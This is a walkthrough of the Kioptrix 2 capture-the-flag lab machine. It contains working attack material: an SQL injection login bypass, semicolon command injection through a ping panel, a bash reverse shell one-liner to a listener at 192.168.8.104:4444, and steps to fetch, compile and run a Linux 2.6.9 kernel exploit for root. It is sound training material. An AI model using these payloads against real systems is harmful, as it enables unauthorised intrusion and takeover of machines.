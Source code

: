 # Kioptrix 2- Walkthrough

First We check what's our ip with simple shell command:
```
ifconfig
```
![alt text](/screens/ifconfig2.png)

Then we need to check the hosts running on our IP address with another shell command:
```
netdiscover
```
![alt text](/screens/netdiscover2.png)

**PCS Systemtechnik GmbH** is Virtual Box Vendor so it must be our VM.

Let's scan it with **nmap**!

		* -sS stands for TCP SYN scan 
		* -A  DetectS OS and Services
    
    
 ```
 nmap -sS -A <ip address>
 ```
 
 ![alt text](/screens/nmap2.png)
 
 Port 631 caught my eye immediatly and CUPS 1.1 had some known vulnerabilities but noone of the exploits worked.
 Lets search further.
 
 Port 80, which is standard http port is open.
 When accessed it gives us a login panel.
 
  ![alt text](/screens/login1.png)

### SQL Injection

I tried some default credentials but they didnt work.
Lets try to bypass it with SQL Injection.

We can guess that the query looks something like

```
SELECT * FROM users WHERE username = 'username' AND password = 'password'
```	

If we pass ' or '1'='1'-- query will look now like this:

```
SELECT * FROM users WHERE username = '' or '1'='1'--  AND password = <out input>
```
	
"-- " (with space in the end) is MYSQL comment sign. Passing it in the end means that the end of the query will be commented out, so the query really looks like:

```
SELECT * FROM users WHERE username = '' or '1'='1'--
```

OR statement means that only one of the arguments needs to be True and as '1'='1' is always True - We bypassed the login form.
  
  ![alt text](/screens/login2.png)
  
After login we get redirected to a Panel which lets us Ping the machines over internet.

  ![alt text](/screens/panel.png)
  
  Lets add another command with ; (semicolon) and see if it works.
  
  ![alt text](/screens/commandinjection.png)
  
Yes! It gives us back the output from both commands so the panel is vulnerable to Command Injection.
As output shows we're logged in as apache, so now we need to use privilege escalation in order to get the root.

### Privilege Escalation

Linux command uname -a (Unix name) prints back info about the name and version of operating system running on machine.

  ![alt text](/screens/panel2.png)

  ![alt text](/screens/uname.png)
  
  So we see that the system running is **GNU/Linux version 2.6.9**
  Quick research shows that this kernel is vulerable!
	https://www.exploit-db.com/exploits/9542
	
Exploit is **local** so we need to get it into victim machine.

On our machine we need to set up a netcat listener

```
netcat -v -l -p 4444

-v (verbose)
-l (listen)
-p(port)
4444-port to listen on
```
On the victim machine we gonna inject a one line reverse shell with our IP and port that we specified in netcat listener.

```
www.google.com;bash -i >& /dev/tcp/192.168.8.104/4444 0>&1
```
Once we click submit our netcat listener should revice a connection.

  ![alt text](/screens/netcat_listener.png)
  
 Great, we have a reverse shell on victim machine.
 
 ## Using the exploit
 
We need to download the exploit to our machine and serve as a host to download it from victim machine.
Python's SimpleHTTPServer will do the job just fine.

Move to the directory where the exploit is and start SimpleHTTPServer with command:

```
python -m SimpleHTTPServer
```

Once started, we can access the files from the victim machine.
Lets do it using **wget** 

```
http://192.168.8.104:8000/9542.c
```

Woops! **An Error gonna come up**

  ![alt text](/screens/wgeterror.png)

Its because we dont have the required permission as the **apache** user.
But we do have an access to **/tmp/** location, lets insert it there then!

  ![alt text](/screens/wgetsuccess.png)
  
 Works perfectly!
Its a .c file so we need to compile it now using **gcc**.
Type: ```gcc 9542.c -o exploit```
And use the compiled exploit with ```./exploit```

  ![alt text](/screens/root2.png)
  
  **Root obtained!** 
